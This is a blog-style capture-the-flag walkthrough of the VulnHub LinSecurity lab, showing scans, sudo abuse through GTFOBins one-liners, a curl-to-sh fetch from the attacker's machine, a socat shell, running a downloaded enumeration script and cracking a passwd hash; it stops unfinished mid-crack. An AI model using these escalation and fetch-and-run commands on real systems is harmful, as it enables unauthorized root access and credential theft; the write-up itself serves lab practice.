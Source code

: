 ```yaml
---
layout: post-detail
title: CTF Linsecurity
date: 2018-10-28
categories: CTF
description: Walkthrough on the CTF LinSecurity iso at https://www.vulnhub.com/entry/linsecurity-1,244/
img-url: ''
comments: true
---
```


# Iso 

Get the ISO at https://www.vulnhub.com/entry/linsecurity-1,244/

# Target

    $ nmap -sS 192.168.1.0

```txt
Nmap scan report for 192.168.1.14
22/tcp   open  ssh
111/tcp  open  rpcbind
2049/tcp open  nfs
```

There is no web server, it change. A Quick TCP scan.

    $ sudo nmap -sC -sV -vv -oA quick 192.168.1.14

```txt
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4
111/tcp  open  rpcbind syn-ack ttl 64 2-4 (RPC #100000)
2049/tcp open  nfs_acl syn-ack ttl 64 3 (RPC #100227)
```

At [vulnhub](https://www.vulnhub.com/entry/linsecurity-1,244/), we have a message to start:

```txt
To get started you can log onto the host with the credentials: bob/secret
```

Let's connect to ssh:

    $ ssh bob@192.168.1.14

```txt

██╗     ██╗███╗   ██╗   ███████╗███████╗ ██████╗██╗   ██╗██████╗ ██╗████████╗██╗   ██╗
██║     ██║████╗  ██║   ██╔════╝██╔════╝██╔════╝██║   ██║██╔══██╗██║╚══██╔══╝╚██╗ ██╔╝
██║     ██║██╔██╗ ██║   ███████╗█████╗  ██║     ██║   ██║██████╔╝██║   ██║    ╚████╔╝
██║     ██║██║╚██╗██║   ╚════██║██╔══╝  ██║     ██║   ██║██╔══██╗██║   ██║     ╚██╔╝
███████╗██║██║ ╚████║██╗███████║███████╗╚██████╗╚██████╔╝██║  ██║██║   ██║      ██║
╚══════╝╚═╝╚═╝  ╚═══╝╚═╝╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝  ╚═╝╚═╝   ╚═╝      ╚═╝
Welcome to lin.security | https://in.security | version 1.0
```

Ok, so we are connect as bob, let's look at the /home
 
     $ ls /home
     bob peter susan

We found a `.secret` file in susan directory:

    $ ls -la /home/susan
    $ cat /home/susan/.secret
    MySuperS3cretValue

Check sudo perm:

    $ sudo -l
    [sudo] password for bob: secret

bob can run:

```txt
User bob may run the following commands on linsecurity:
    (ALL) /bin/ash, /usr/bin/awk, /bin/bash, /bin/sh,
        /bin/csh, /usr/bin/curl, /bin/dash, /bin/ed,
        /usr/bin/env, /usr/bin/expect, /usr/bin/find,
        /usr/bin/ftp, /usr/bin/less, /usr/bin/man,
        /bin/more, /usr/bin/scp, /usr/bin/socat,
        /usr/bin/ssh, /usr/bin/vi, /usr/bin/zsh,
        /usr/bin/pico, /usr/bin/rvim, /usr/bin/perl,
        /usr/bin/tclsh, /usr/bin/git, /usr/bin/script,
        /usr/bin/scp
```

After found [gtfobins](https://gtfobins.github.io/), we'll try theses commands:

+ ash : `sudo ash`
+ awk : `sudo awk 'BEGIN {system("/bin/sh")}'`
+ bash : `sudo bash`
+ sh : `sudo sh`
+ csh : `sudo csh`
+ dash : `sudo dash`
+ ed : `sudo ed` (**and after**) `!/bin/sh`
+ env : `sudo env /bin/sh`
+ expect : `sudo expect -c 'spawn /bin/sh;interact'`
+ find : `sudo find . -exec /bin/sh \; -quit`
+ ftp : `sudo ftp` (**and after**) `!/bin/sh`
+ less : `sudo less /etc/profile` (**and after**) `!/bin/sh`
+ man : `sudo man man` (**and after (in the man)**) `!/bin/sh`
+ more : `sudo more /etc/shadow` (**and after**) `!/bin/sh`
+ scp : `TF=$(mktemp); echo 'sh 0<&2 1>&2' > $TF; chmod +x "$TF"; sudo scp -S $TF x y:`
+ ssh : `sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`
+ vi : `sudo vi -c ':!/bin/sh'`
+ zsh : `sudo zsh`
+ pico : `TERM=xterm; TF=$(mktemp); echo 'exec sh' > $TF; chmod +x $TF; sudo pico -s $TF /etc/hosts` (**and after**) `Ctrl+T`
+ rvim : no found
+ perl : `sudo perl -e 'exec "/bin/sh";'`
+ tclsh : `sudo tclsh (**and after**) exec /bin/sh <@stdin >@stdout 2>@stderr`
+ git : `sudo git help status` (**and after**) `!/bin/sh` 
+ script : `sudo script -c '/bin/sh'`

Other commands who need more step:

### curl

curl need two pc to work, we can use the perl method above in a script.  
On your pc, write the `shell.sh`:

```sh
cat >> shell.sh << EOF 
sudo perl -e 'exec "/bin/sh";'
EOF
```
    $ python2.7 -m SimpleHTTPServer 4444
    
On linsecurity:

    $ sh <(curl 192.168.1.56:4444/shell.sh)

### socat

We can write a little script like this:

```sh
cat >> socat.sh << EOF 
sudo socat TCP-LISTEN:9999,reuseaddr,fork EXEC:sh,pty,stderr,setsid,sigint,sane &
socat FILE:$(tty),raw,echo=0 TCP:127.0.0.1:9999
EOF 
```
And execute:

    $ sudo sh ./socat.sh

Voila, we have run all commands except `rvim`.

The content bellow is not yet finished, i explore all other way.
---
 We can connect as bob and susan, return to bob and chec peter file:

    $ su bob
    $ sudo find / -type f -user peter 2>/dev/null

```txt
/lib/systemd/system/debug.service
```
    $ ls -l /lib/systemd/system/debug.service
    -rw-r--r-- 1 peter root 205 Jul  9 19:56 /lib/systemd/system/debug.service

It should be the final file to gain the root privilege ! 

# LinEnum.sh

    $ cd /tmp
    $ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
    $ sudo sh LinEnum.sh

I've cut some parts:

```sh 
-e [-] Kernel information (continued):
Linux version 4.15.0-23-generic (buildd@lgw01-amd64-055) (gcc version 7.3.0 (Ubuntu 7.3.0-16ubuntu3)) #25-Ubuntu SMP Wed May 23 18:02:16 UTC 2018
-e

-e [-] Contents of /etc/passwd:
insecurity:AzER3pBZh6WZE:0:0::/:/bin/sh

-e [-] Super user account(s):
root
insecurity
-e

-e [-] Root is allowed to login via SSH:
PermitRootLogin yes
-e

-e [-] NFS config details:
/home/peter *(rw)
-e 

-e [+] Looks like we're hosting Docker:
Docker version 18.03.1-ce, build 9ee9f40
-e
```

I use `johntheripper` to crack the hash under `/etc/passwd`:

    $ vim shadow
    insecurity:AzER3pBZh6WZE:0:0::/:/bin/sh
    :wq

    $ /usr/sbin/john shadow
    Loaded 1 password hash (Traditional DES [128/128 BS SSE2-16])
